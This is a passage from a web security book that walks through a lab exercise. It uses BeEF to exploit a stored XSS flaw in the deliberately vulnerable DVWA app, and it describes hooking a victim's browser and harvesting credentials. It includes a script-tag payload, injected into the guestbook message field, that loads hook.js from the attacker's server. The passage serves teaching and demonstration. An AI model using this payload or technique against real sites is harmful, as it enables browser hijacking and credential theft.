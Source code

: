 1. Information gathering (probably partly even before you signed the contract with your client)
2. Vulnerability scanning
3. Vulnerability searching

If you're working within a development team you may have found out some other way that your project was vulnerable to XSS.

How ever you got to this point, you're going to want to exhibit the fault. One of the most effective ways to do this is by using BeEF. BeEF clearly shows what is possible when you have an XSS vulnerability in scope and is an excellent tool for effortlessly demonstrating the severity of the fault to all team members and stakeholders.  
One of BeEF's primary reasons to exist is to exploit the fact that many security philosophies seem to forget how easy it is to go straight through hardened network perimeters and attack the soft mushy insides of a sub network (as discussed in chapter 3 Physical, under the [Fortress Mentality](#physical-identify-risks-fortress-mentality) section). Exposing XSS faults is one of BeEF's attributes. 

You can find the video of how this attack is played out [here](https://www.youtube.com/watch?v=92AWyUfJDUw).

I> ## Synopsis
I>
I> In this exercise, I've used the Dam Vulnerable Web App (DVWA), as it has the types of XSS vulnerabilities we need in order to demonstrate the power of BeEF. DVWA is included in the OWASP Broken Web Application ([OWASPBWA](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project)) turn-key VM, along with many other useful purposely vulnerable projects.  
I> We use BeEF to exploit an XSS vulnerability in DVWA and carry out a simple attack in which we coerce the target to enter their credentials for a website and send them to our BeEF communications server unknowingly.

{icon=bomb}
G> ## The Play
G>
G> Make sure you have the OWASPBWA [configured](https://code.google.com/p/owaspbwa/wiki/UserGuide) and running in your lab.
G>
G> From the directory that you have BeEF installed, run the BeEF ruby script: `./beef`
G>
G> Log into the BeEF UI at `http://localhost:3000/ui/authentication` (or using https if you've configured TLS) with the user and password that you setup in the BeEF root config.yaml.
G>
G> Open another browser tab and log-in to the DVWA.
G>
G> Browse to "XSS stored".
G>
G> Enter some text in the Name field and some text in the Message field.
G> 
G> Enable foxy proxy so that your request goes to the same port that burp suite is going to be listening on.
G>
G> Fire up burp.
G>
G> Back in the DVWA send your request by clicking on the Sign Guestbook button.
G>
G> Switch back to burp -> Proxy tab and the request should be waiting for you. You now need to replace the text you used in the Message field `mtxMessage` with `<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>` and forward the request.
G>
G> You can disable FoxyProxy now too.
G>
G> Now on your victims machine, the victim can log into DVWA and browse to the same "XSS stored" page. Now as the attacker, you'll now notice that the BeEF Web UI shows a node with the victims IP address. This means BeEF has the victims browser hooked. The victims browser is now a zombie, continuously polling the BeEF communications server for commands to execute on its behalf.
G>
G> If you open the victims browser developer tools, you'll be able to inspect the communications and the JavaScript within the hook.js file.